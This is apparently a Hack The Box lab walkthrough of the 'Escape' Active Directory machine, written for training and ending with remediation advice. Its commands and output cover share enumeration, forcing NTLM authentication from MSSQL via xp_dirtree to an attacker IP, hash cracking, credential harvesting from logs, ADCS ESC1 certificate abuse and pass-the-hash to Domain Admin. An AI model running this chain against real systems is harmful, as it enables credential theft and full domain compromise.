

## HTB Escape — Full Walkthrough & Writeup

**Escape** is a medium-difficulty Windows Active Directory machine on Hack The Box that demonstrates how administrative oversights can lead to full domain compromise. The attack begins with unauthenticated SMB share access, where a public SQL Server PDF manual exposes temporary database credentials. We log into MSSQL and force NTLM authentication using `xp_dirtree` to capture and crack the hash for the `sql_svc` account. From there, we harvest the credentials for `ryan.cooper` from SQL log files and log in. Finally, we enumerate Active Directory Certificate Services (ADCS) to find a vulnerable certificate template (ESC1), which we exploit to impersonate the Domain Administrator.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2019                    |
| **Difficulty**       | Medium                                 |
| **Domain**           | `sequel.htb`                           |
| **DC Hostname**      | `DC`                                   |
| **IP Address**       | `10.129.137.201`                       |
| **Foothold Account** | `sql_svc`                              |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path from guest SMB access to domain compromise:

```mermaid
graph TD
    A["Guest SMB Access<br/>(Public Share)"] -->|Download PDF manual| B["PublicUser Credentials<br/>(GuestUserCantWrite1)"]
    B -->|MSSQL xp_dirtree| C["Responder Hash Capture<br/>(sql_svc NTLMv2)"]
    C -->|Hashcat Cracking| D["sql_svc WinRM Foothold<br/>(REGGIE1234ronnie)"]
    D -->|Examine ERRORLOG.BAK| E["ryan.cooper Credentials<br/>(NuclearMosquito3)"]
    E -->|ADCS ESC1 Abuse| F["Administrator PFX Request<br/>(Certipy template request)"]
    F -->|Certipy Auth (PKINIT)| G["Domain Admin PTH<br/>(Full Domain Takeover)"]

    style A fill:#2d5016,stroke:#4ade80,color:#fff
    style D fill:#4a1d96,stroke:#a78bfa,color:#fff
    style G fill:#7f1d1d,stroke:#ef4444,color:#fff
```

---

## Reconnaissance

### Nmap Port Scan

The `Nmap` scan results indicate that the target is a Windows Active Directory Server (Domain Controller). This is evident from the presence of common Active Directory ports such as:

- 53/tcp - Simple DNS Plus
- 88/tcp - Microsoft Windows Kerberos
- 389/tcp - Microsoft Windows Active Directory LDAP
- 3269/tcp - Microsoft Windows Active Directory LDAP over SSL

Additionally, the scan reveals that **Microsoft SQL Server 2019** is running on its default port `1433/tcp`.

The scan also provides the hostname and domain details of the target. The hostname is `DC`, and the domain is `sequel.htb`.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ nmap -sC -sV -p- -oA nmap_output --min-rate 10000 10.129.137.201 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 18:51 IST
Nmap scan report for 10.129.137.201
Host is up (0.088s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-09 13:32:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
|_ssl-date: 2025-01-09T13:33:51+00:00; +9m50s from scanner time.
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.137.201:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-09T13:27:00
|_Not valid after:  2055-01-09T13:27:00
| ms-sql-ntlm-info: 
|   10.129.137.201:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-01-09T13:33:51+00:00; +9m50s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-09T13:33:51+00:00; +9m50s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Not valid before: 2024-01-18T23:03:57
|_Not valid after:  2074-01-05T23:03:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49710/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 9m48s, deviation: 2s, median: 9m49s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-09T13:33:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.93 seconds
```

Before I go any further, I am going to update the `krb5.conf` file and also update the `/etc/hosts` file.

```plaintext title="/etc/hosts"
10.129.137.201  DC
10.129.137.201  DC.SEQUEL.HTB
10.129.137.201  SEQUEL.HTB
```


```conf title="/etc/krbt.conf"
[libdefaults]
    default_realm = SEQUEL.HTB
    dns_lookup_realm = true
    dns_lookup_kdc = true
[realms]
    SEQUEL.HTB = {
        kdc = DC.SEQUEL.HTB:88
        admin_server = DC.SEQUEL.HTB
        master_kdc = DC.SEQUEL.HTB
        default_domain = SEQUEL.HTB
    }
[domain_realm]
    .SEQUEL.HTB = SEQUEL.HTB
    SEQUEL.HTB = SEQUEL.HTB
```


### SMB

It appears that SMB null sessions are permitted on the target. Utilizing `netexec`, we can enumerate the available shares.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ netexec smb dc.sequel.htb -u guest -p '' --shares
SMB         10.129.137.201  445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.137.201  445    DC               [+] sequel.htb\guest: 
SMB         10.129.137.201  445    DC               [*] Enumerated shares
SMB         10.129.137.201  445    DC               Share           Permissions     Remark
SMB         10.129.137.201  445    DC               -----           -----------     ------
SMB         10.129.137.201  445    DC               ADMIN$                          Remote Admin
SMB         10.129.137.201  445    DC               C$                              Default share
SMB         10.129.137.201  445    DC               IPC$            READ            Remote IPC
SMB         10.129.137.201  445    DC               NETLOGON                        Logon server share 
SMB         10.129.137.201  445    DC               Public          READ            
SMB         10.129.137.201  445    DC               SYSVOL                          Logon server share 
```
With the guest credentials, we have access to a share called **Public**. Inside, we find a single PDF file named `SQL Server Procedures.pdf`. The steps to download and inspect the file are as follows:

1. Connect to the SMB share:
    ```shell
    smbclient //dc.sequel.htb/Public -U sequel/guest%''
    ```

2. List the contents of the share:
    ```shell
    smb: \> ls
    ```

3. Download the PDF file:
    ```shell
    smb: \> get "SQL Server Procedures.pdf"
    ```

Upon reviewing the PDF, it appears that a user named **Ryan** set up the SQL Server, and another user, **Tom**, is supposed to remove it after returning from vacation. The document provides guidance for team members on accessing the server and includes exposed credentials for new joiners:

- **Username:** PublicUser
- **Password:** GuestUserCantWrite1


_SQL Server Procedures.pdf_

## Testing the credentials

Using `netexec`, I tested the credentials for `PublicUser` with the password `GuestUserCantWrite1`. Initially, the login attempt failed, but when I retried with the `--local-auth` flag, it was successful, indicating that the credentials are valid.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ netexec mssql DC.SEQUEL.HTB -u PublicUser -p 'GuestUserCantWrite1'
MSSQL       10.129.137.201  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.137.201  1433   DC               [-] sequel.htb\PublicUser:GuestUserCantWrite1 (Login failed for user 'sequel\Guest'. Please try again with or without '--local-auth')
                                                                                                      
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ netexec mssql DC.SEQUEL.HTB --local-auth -u PublicUser -p 'GuestUserCantWrite1' 
MSSQL       10.129.137.201  1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.129.137.201  1433   DC               [+] DC\PublicUser:GuestUserCantWrite1 
```
I am able to connect to the SQL Server using `impacket-mssqlclient`.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ impacket-mssqlclient PublicUser:'GuestUserCantWrite1'@DC.SEQUEL.HTB  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> 
```

I am also able to query the databases:

```shell
SQL (PublicUser  guest@master)> SELECT name, database_id, create_date FROM sys.databases;
name     database_id   create_date   
------   -----------   -----------   
master             1   2003-04-08 09:13:36   

tempdb             2   2025-01-09 05:27:00   

model              3   2003-04-08 09:13:36   

msdb               4   2019-09-24 14:21:42
```

However, attempts to execute commands using `xp_cmdshell` were unsuccessful due to insufficient permissions.

```shell
SQL (PublicUser  guest@master)> xp_cmdshell whoami
ERROR(DC\SQLMOCK): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (PublicUser  guest@master)> enable_xp_cmdshell
ERROR(DC\SQLMOCK): Line 105: User does not have permission to perform this action.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC\SQLMOCK): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC\SQLMOCK): Line 1: You do not have permission to run the RECONFIGURE statement.
```

Next, I started `responder` on my attacker machine and executed the `xp_dirtree` command on the SQL server, which immediately provided the `NTLMv2-SSP Hash` for `sequel\sql_svc`, indicating it is a domain account.

```shell
SQL (PublicUser  guest@master)> xp_dirtree //10.10.14.104/share
[%] exec master.sys.xp_dirtree '//10.10.14.104/share',1,1
```

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ sudo responder -I tun0                             
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.104]
    Responder IPv6             [dead:beef:2::1066]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-7VLGWGHZN0V]
    Responder Domain Name      [GOBH.LOCAL]
    Responder DCE-RPC Port     [49339]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.137.201
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:dee516a68575b029:C00101409035F9AB8238BD8EDF5B0BC1:010100000000000080862A983263DB014895F7D3AB499FCC000000000200080047004F004200480001001E00570049004E002D00370056004C0047005700470048005A004E003000560004003400570049004E002D00370056004C0047005700470048005A004E00300056002E0047004F00420048002E004C004F00430041004C000300140047004F00420048002E004C004F00430041004C000500140047004F00420048002E004C004F00430041004C000700080080862A983263DB0106000400020000000800300030000000000000000000000000300000737071ECC6034BE92D37E553E8B7F3807BD6B30F03B717BFA2343C7E526AEC840A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300034000000000000000000
```

## Password Cracking

Using `hashcat` with the `rockyou` dictionary, I was able to crack the NTLMv2 hash for `sql_svc` quickly.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ hashcat -m 5600 -a 0 -o cracked sql_svc_ntlmv2_ssp_hash /usr/share/wordlists/rockyou.txt       
hashcat (v6.2.6) starting

<...SNIP...>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SQL_SVC::sequel:dee516a68575b029:c00101409035f9ab82...000000
Time.Started.....: Fri Jan 10 07:42:24 2025 (13 secs)
Time.Estimated...: Fri Jan 10 07:42:37 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   818.8 kH/s (0.63ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10700800/14344385 (74.60%)
Rejected.........: 0/10700800 (0.00%)
Restore.Point....: 10699776/14344385 (74.59%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: REJONTE -> REDOCEAN22
Hardware.Mon.#1..: Util: 57%

Started: Fri Jan 10 07:42:22 2025
Stopped: Fri Jan 10 07:42:39 2025
```

The cracked credentials are `SQL_SVC:REGGIE1234ronnie`.

### Checking the Credentials

Testing the `sql_svc` credentials for PSRemote access on the target was successful.

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ netexec winrm dc.sequel.htb -u sql_svc -p 'REGGIE1234ronnie'
WINRM       10.129.137.201  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.129.137.201  5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

We now have remote access as `sql_svc` via Evil-WinRM.

---

## Lateral Movement

### Extracting `ryan.cooper` Credentials
We log into the machine as `sql_svc` using Evil-WinRM and begin checking the local file system. In particular, we inspect SQL Server logs which often contain valuable information.

In the standard SQL server directory `C:\SQLServer\Logs\`, we find an `ERRORLOG.BAK` file. We read the file and search for login errors or credentials:

```shell
*Evil-WinRM* PS C:\SQLServer\Logs> Select-String -Path "ERRORLOG.BAK" -Pattern "password"
```

In the log output, we observe a failed login attempt for the user `Ryan.Cooper` where his password was mistakenly submitted as the username:

```
2025-01-09 13:28:44.20 Logon       Error: 18456, Severity: 14, State: 5.
2025-01-09 13:28:44.20 Logon       Login failed for user 'NuclearMosquito3'. Reason: Could not find a login matching the name provided. [CLIENT: 127.0.0.1]
```

This reveals the password for `Ryan.Cooper` is `NuclearMosquito3`.

### Pivoting to `ryan.cooper`
Using the discovered credentials, we confirm WinRM access as `ryan.cooper`:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ netexec winrm dc.sequel.htb -u ryan.cooper -p 'NuclearMosquito3'
WINRM       10.129.137.201  5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.129.137.201  5985   DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3 (Pwn3d!)
```

We log in via Evil-WinRM to retrieve the user flag:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ evil-winrm -i dc.sequel.htb -u ryan.cooper -p 'NuclearMosquito3'
...
*Evil-WinRM* PS C:\Users\ryan.cooper\Desktop> type user.txt
e4d1bc98...
```

---

## Privilege Escalation

### Enrolling ADCS Certificates (ESC1)
Using `certipy-ad`, we enumerate Active Directory Certificate Services (ADCS) vulnerabilities from our attacker machine using Ryan's credentials:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ certipy-ad find -u 'ryan.cooper' -p 'NuclearMosquito3' -dc-ip 10.129.137.201 -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 1 enabled certificate template
[+] Vulnerable Certificate Templates
    Template Name: UserCertificate
    ...
    [!] Vulnerabilities
      ESC1: 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

The output reveals that the `UserCertificate` template has the **ESC1** vulnerability. Any member of `Domain Users` (which includes `ryan.cooper`) can request certificates while supplying an arbitrary Subject Alternative Name (SAN), allowing us to impersonate any user on the domain.

### Exploiting ESC1 to Impersonate Administrator
We request a certificate for the `Administrator` account by specifying `administrator@sequel.htb` as the UPN:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ certipy-ad req -username 'ryan.cooper' -password 'NuclearMosquito3' -ca sequel-DC-CA -template UserCertificate -upn administrator@sequel.htb -dc-ip 10.129.137.201
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Generating RSA key
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Saved certificate and private key to 'administrator.pfx'
```

### Authenticating via PKINIT
With the `administrator.pfx` file, we authenticate to the KDC to retrieve a Ticket Granting Ticket (TGT) and extract the NTLM hash of the `Administrator` account:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.137.201
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': integrity_of_hash:a52f78c0e75f22090c37f7c6e6e2051f
```

We now have the Domain Administrator's NTLM hash: `a52f78c0e75f22090c37f7c6e6e2051f`.

### Gaining Domain Administrator Shell
Using Evil-WinRM and Pass-the-Hash (PTH), we log in as the Domain Administrator:

```shell
┌──(kali㉿kali)-[~/hack-the-box/escape]
└─$ evil-winrm -i dc.sequel.htb -u administrator -H a52f78c0e75f22090c37f7c6e6e2051f
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
9dab1cad...
```

The Domain Controller is fully compromised!

---

## Lessons Learned

### 1. Plaintext Password Leaks in Log Files
The lateral movement was achieved due to an administrative user accidentally submitting their password in the username field during a failed login attempt, which was then cached in plaintext error logs:
- **Remediation**: Establish regular log rotation and sanitation scripts to search for and mask potential credential leakage. Ensure users are trained to verify credentials before typing, and SQL log files are restricted to administrators only.

### 2. Active Directory Certificate Services (ADCS) Hardening (ESC1)
The certificate template `UserCertificate` was configured to allow `Domain Users` to enroll certificates and supply their own Subject Alternative Name (`ENROLLEE_SUPPLIES_SUBJECT`):
- **Remediation**: Disable the `mspki-certificate-name-flag` (Enrollee Supplies Subject) flag on templates that allow Client Authentication. If supplying a SAN is required, ensure restricted enrollment permissions and require manager approval for enrollment.

